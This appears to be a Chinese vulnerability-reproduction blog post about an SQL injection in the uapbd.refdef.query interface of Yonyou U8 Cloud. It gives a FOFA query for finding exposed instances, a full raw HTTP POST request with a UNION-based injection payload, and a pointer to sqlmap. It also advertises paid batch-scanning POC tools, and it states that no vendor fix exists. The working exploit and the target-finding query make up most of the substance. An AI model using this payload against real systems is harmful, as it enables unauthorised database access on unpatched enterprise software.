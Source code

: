 #  用友U8 Cloud uapbd.refdef.query接口存在SQL注入漏洞 附POC   
2024-11-7更新  南风漏洞复现文库   2024-11-07 23:06  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 用友U8 Cloud 简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
用友网络是全球领先的企业与公共组织软件、云服务、金融服务提供商。提供营销、制造、财务、人力等产品与服务，帮助客户实现发展目标，进而推动商业和社会进步。  
## 2.漏洞描述  
  
用友U8 Cloud是用友推出的大型企业数字化平台。用友U8 Cloud uapbd.refdef.query接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
title=="U8C"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3avLLULj7gXuaxN8PABaicZTqjkS9dficWwmQxhBB9DHiaicjMyRhdosgWAibX1KA0Eln4ibekPpduDHI0g/640?wx_fmt=png&from=appmsg "null")  
  
用友U8 Cloud uapbd.refdef.query接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
title=="U8C"  
## 5.漏洞复现  
  
漏洞链接：http://xx.xx.xx.xx/u8cloud/openapi/uapbd.refdef.query?appcode=huo&isEncrypt=N  
  
漏洞数据包：  
```
POST /u8cloud/openapi/uapbd.refdef.query?appcode=huo&isEncrypt=N HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Host: xx.xx.xx.xx
Content-Type: application/json
Content-Length: 64

{"refName":"1%' UNION ALL SELECT 1,CONVERT(INT,@@VERSION),1-- "}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avLLULj7gXuaxN8PABaicZT65xibibhp7sr4KNs3oib6QYrTEibpm8lnqzmMUeTd4KY3sRVql3gq2uUnQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
可以跑sqlmap  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3avLLULj7gXuaxN8PABaicZT36pXuEiarmx5mQIwdnY2J5sYOYrDSZU7C06zxsjUicticb8bJ4fwIumbg/640?wx_fmt=png&from=appmsg "null")  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avLLULj7gXuaxN8PABaicZT6j11tC6ibAWkY5TiaICicnaiaiciby2vtysySJWyWALibVVT3GdwaD2ooQshQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3avLLULj7gXuaxN8PABaicZTytW9nwHuPOZ6mVJaT9bOgDj3MO7f0JWu57PCbrEj62jdtqWDgBrrSQ/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avLLULj7gXuaxN8PABaicZTm1yzibH4yTq1iaFb4dl0XtMHCmHN4uORQ1O3702iaKzYLnqzQq0rVMyBA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avLLULj7gXuaxN8PABaicZTkLUSoo4drPn7dJXyjcbKjlzI2icdbtKoEu95tapujRZWFIF84YKBIqA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avLLULj7gXuaxN8PABaicZTmwvA1u1jZ5ocofsOhQYUPiaNLxjkicDO6ZlMOPgNFZfOMP08ib5ZbTwJA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3avLLULj7gXuaxN8PABaicZTYlS6Eib7tGEKkAUWGsTN6ORq9ibSSW8f2jdRgRDJjZRl7bHlKc2afIpg/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修复方案，请关注厂商主页更新： https://www.yonyou.com/  
## 8.往期回顾  
  
  
[东胜物流软件AttributeAdapter.aspx接口存在SQL注入漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487698&idx=1&sn=7b6ffc442157b482856dc14161c6639f&chksm=974b9dd5a03c14c3cf5c949514fab1b629d55adfee56ab6ddd39aa3b5d572ab2e951276af74d&scene=21#wechat_redirect)  
  
  
[用友NC Cloud service/esnserver接口存在任意文件上传漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247487685&idx=1&sn=513f6f10d762dfcbd9844d6fbb7a78f1&chksm=974b9dc2a03c14d488f5b5b743223e5c2b407192ad4ebef39bf44f95afe822a35bfc38f8a03f&scene=21#wechat_redirect)  
  
  
